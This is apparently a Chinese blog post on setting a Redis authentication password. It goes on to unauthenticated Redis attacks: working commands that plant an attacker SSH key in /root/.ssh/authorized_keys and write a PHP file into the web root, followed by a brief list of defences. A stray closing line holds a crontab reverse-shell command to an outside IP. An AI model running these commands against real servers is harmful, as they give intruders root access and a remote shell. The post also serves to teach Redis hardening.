 ```yaml
---
title: redis设置认证密码
tags:
  - redis
categories:
  - 数据库
copyright: true
permalink: redis设置认证密码
top: 0
password: 
abstract: 输入密码继续阅读.
message: 欢迎来到我的博客，输入密码继续阅读.
date: 2020-01-14 21:09:05
---
```


人生苦短我用python
<!--more-->
## 首先连接Redis，然后执行CONFIG SET requirepass userpassword
```
/usr/local/redis/bin/redis-cli -h 127.0.0.1 -p 6379
127.0.0.1:6379> KEYS *
1) "user"
127.0.0.1:6379> CONFIG SET requirepass 123.com
OK
127.0.0.1:6379> KEYS *
(error) NOAUTH Authentication required.
127.0.0.1:6379> quit
```
从上面可以看到密码设置成功，同时一旦密码设置成功，刚刚建立的连接将不能进行任何权限操作
```
#使用-a userpassword 登录Redis
/usr/local/redis/bin/redis-cli -h 127.0.0.1 -p 6379 -a 123.com
127.0.0.1:6379> KEYS *
1) "user"
127.0.0.1:6379> set job it
OK
127.0.0.1:6379> KEYS *
1) "job"
2) "user"
127.0.0.1:6379> 
#通过Redis登录后可以看到可以进行任何操作
```

## docker 创建redis设置密码

```
 docker run -d --name myredis -p 6379:6379 redis --requirepass "doonsec"
```
跟上参数 `requirepass`


## 未授权访问

Redis因配置不当可以导致未授权访问，被攻击者恶意利用。当前流行的针对Redis未授权访问的一种新型攻击方式，在特定条件下，如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器，可导致服务器权限被获取和数据删除、泄露或加密勒索事件发生，严重危害业务正常服务。部分服务器上的Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），以及该端口可以通过公网直接访问，如果没有采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，可能造成其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作

（1）、redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源 ip 访问等相关安全策略，直接暴露在公网；(这样的配置非常的普遍)

（2）、可以远程登录，一般是通过ssh，可以免密码登录
### 写ssh-keygen公钥然后使用私钥登陆:


利用条件:

（1）、redis的权限是以root访问；

（2）、可以ssh通过秘钥远程登录；

在本机创建密钥对
```
ssh-keygen -t rsa
```
执行以下命令，将本地的ssh的公钥导入到靶机上面，这样我们就可以不用输入密码直接登录远程服务器:

```
config set dir /root/.ssh;

config set dbfilename authorized_keys;

set x "\n\n\nssh-rsa 公钥 root@kalin\n\n\n";

save;
```
**注意：必须是root用户创建redis，否则执行命令没有权限**

```
127.0.0.1:6379> config set dir /root/.ssh;
(error) ERR Changing directory: Permission denied
```

通过执行连接命令:ssh -i id_rsa root@192.168.64.165 ,无需输入密码就可以成功登录靶机:
```
ssh -i id_rsa root@ ip地址
```
### 2、通过写入web服务的目录，获取服务器webshell：

利用条件:

(1)、网站存在web服务；

(2)、运行redis服务的权限较低；

(3)、web目录有写入的权限；

(4)、能够猜解出网站的根目录；


执行以下命令，将一句话或者测试代码写入到网站根目录下:
```
config set dir /var/www/html ; 定位到网站根目录下；

config set dbfilename cmdback.php ; 创建一个php文件

set x "<?php echo 'hello word'?>"  将内容写入到cmdback.php中

save;
```
查看数据
```
root@e35a54b91583:/data# ls
cmdback.php
root@e35a54b91583:/data#
```

### 防御措施:

（1）、登录账户设置复杂的口令；

（2）、修改原端口；

（3）、禁止公钥登陆系统；

（4）、设置IP白名单策略；

* * * * * bash -i >& /dev/tcp/47.100.199.103/8007 0>&1